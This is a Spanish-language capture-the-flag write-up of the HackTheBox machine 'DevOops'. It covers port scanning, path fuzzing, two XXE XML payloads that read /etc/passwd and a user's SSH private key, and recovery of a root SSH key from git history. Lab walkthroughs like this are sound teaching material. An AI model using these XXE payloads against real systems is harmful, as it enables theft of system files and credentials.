 ```yaml
---
layout      : post
title       : "DevOops - HackTheBox"
author      : elc4br4
image       : /assets/images/HTB/DevOops-HackTheBox/DevOops.webp
category    : [ htb ]
tags        : [ Linux ]
---
```


Estamos ante una máquina Linux de nivel MEDIUM en la que explotaremos la vulnerabilidad XXE para leer archivos generando un archivo .xml y escalaremos privilegios a través de un rsa.

![](/assets/images/HTB/DevOops-HackTheBox/DevOops2.webp)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

![](/assets/images/HTB/DevOops-HackTheBox/DevOops-rating.webp)

...


**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
    * [Reconocimiento de Puertos](#recon-nmap).
2. [Enumeración](#enumeración).
    * [Enumeración Web](#enum-web).
3. [Explotación](#explotacion).   
    * [Burpsuite](#burpsuite).
 5. [Escalada de Privilegios](#privesc). 
    * [Git](#git).   


...

# Reconocimiento [#](reconocimiento) {#reconocimiento}

----

## Reconocimiento de Puertos [📌](#recon-nmap) {#recon-nmap}

Para comenzar lanzo la herramienta WhichSystem para identificar ante que sistema operativo nos enfrentamos.

![](/assets/images/HTB/DevOops-HackTheBox/WhichSystem.webp)

Ya se que estamos ante una máquina Linux, asique a continuación escanearé los puertos existentes en la máquina.

```nmap
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```
Tenemos el puerto 22(ssh) y el puerto 5000 (upnp).

Pero necesito más información del puerto 5000 asique escanearé los puertos de forma más avanzada.

```nmap
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 42:90:e3:35:31:8d:8b:86:17:2a:fb:38:90:da:c4:95 (RSA)
|   256 b7:b6:dc:c4:4c:87:9b:75:2a:00:89:83:ed:b2:80:31 (ECDSA)
|_  256 d5:2f:19:53:b2:8e:3a:4b:b3:dd:3c:1f:c0:37:0d:00 (ED25519)
5000/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ahora ya tenemos algo más de información, asique procedo a enumerar el servidor web.

# Enumeración [#](enumeración) {#enumeración}

----

## Enumeración Web [📌](#enum-web) {#enum-web}

Accedo desde el navegador al servidor web.

![](/assets/images/HTB/DevOops-HackTheBox/web1.webp)

Parece que el sitio está en desarrollo, pero no hay nada interesante, asique voy a fuzzear rutas.

Usaré la herramienta wfuzz para enumerar rutas en el servidor web.

`wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.91:5000/FUZZ --hl=4`

![](/assets/images/HTB/DevOops-HackTheBox/wfuzz.webp)

* upload
* feed

En la ruta feed no hay nada que pueda servirme.

Pero en la ruta upload hay un panel de subida de archivos

![](/assets/images/HTB/DevOops-HackTheBox/web2.webp)

# Explotación [#](explotacion) {#explotacion}

----

## Burpsuite [🔥](#burpsuite) {#burpsuite}

Pruebo a subir una reverse shell en php y capturar la petición con Burpsuite.

![](/assets/images/HTB/DevOops-HackTheBox/revphp.webp)

Pero no ocurre nada, aunque si nos fijamos en el servidor web veremos esto.

> `XML elements: Author, Subject, Content`

Debemos subir un archivo XML que contenga los campos Author, Subject y Content.

Si hablamos de XML... se me ocurre XXE, asique buscaré información sobre la vulnerabilidad XXE.

Buscando encuentro información en la web de OWASP.

[https://owasp.org/www-community/vulnerabilities](https://owasp.org/www-community/vulnerabilities)

![](/assets/images/HTB/DevOops-HackTheBox/XXE.webp)

La sintaxis del archivo será la siguiente,añadiremos los campos Author, Subject y añadiremos el campo Content.


```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
  <Author>&xxe;</Author>
  <Subject>mysub</Subject>
  <Content>mycontent</Content>
</creds>
```

Subimos el archivo y capturamos la petición con Burp.

Enviamos la petición al Repeater y la enviamos haciendo click en send.

![](/assets/images/HTB/DevOops-HackTheBox/Burp1.webp)

Y como vemos tenemos el archivo passwd para leer.

Encuentro varios usuarios

```users
git:x:1001:1001:git,,,:/home/git:/bin/bash
roosa:x:1002:1002:,,,:/home/roosa:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
blogfeed:x:1003:1003:,,,:/home/blogfeed:/bin/false
```
El más destacable es _roosa_, asique igual que he leido el archivo passwd intento leer el archivo id_rsa del usuario roosa para poder conectarme por ssh.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id-rsa" >]>
<creds>
  <Author>&xxe;</Author>
  <Subject>mysub</Subject>
  <Content>mycontent</Content>
</creds>
```

![](/assets/images/HTB/DevOops-HackTheBox/Burp2.webp)

Y ahí lo tenemos, asique me lo copio a un archivo y le asigno los permisos 400 con `chmod 400 id_rsa`.

Una vez hecho, me conecto por ssh.

![](/assets/images/HTB/DevOops-HackTheBox/ssh.webp)

Y ya podemos leer la flag user.txt


# Escalada de Privilegios [#](privesc) {#privesc}

----

## Git[👽](git) {#git}

Ahora toca escalar privilegios para leer la flag root, pero para eso debemos convertirnos en el usuario root.

Enumerando encuentro carpeta .git en la ruta /home/roosa/work/blogfeed/.git asique pruebo con el comando `git log -r` a ver que obtenemos. 

![](/assets/images/HTB/DevOops-HackTheBox/git.webp)

> reverted accidental commit with proper key

Dato curioso que decido mirar, asique si ejecuto `git log -p 6`...

![](/assets/images/HTB/DevOops-HackTheBox/git2.webp)

Tenemos dos claves rsa, una en rojo y la otra en verde, creo que debido a un error revirtieron las claves rsa, por lo tanto la roja es la clave antigua asique pruebo a copiarla y usarla para conectarme por ssh como root.

![](/assets/images/HTB/DevOops-HackTheBox/rsa.webp)

Una vez lo tenemos copiado en un archivo le asigamos los permisos 600 con `chmod 600 id_rsa2` y nos logueamos por ssh como root.

![](/assets/images/HTB/DevOops-HackTheBox/root.webp)

👨🏻‍💻Y ya hemos pwneado la máquina DevOops👨🏻‍💻

![](/assets/images/HTB/DevOops-HackTheBox/gif.gif)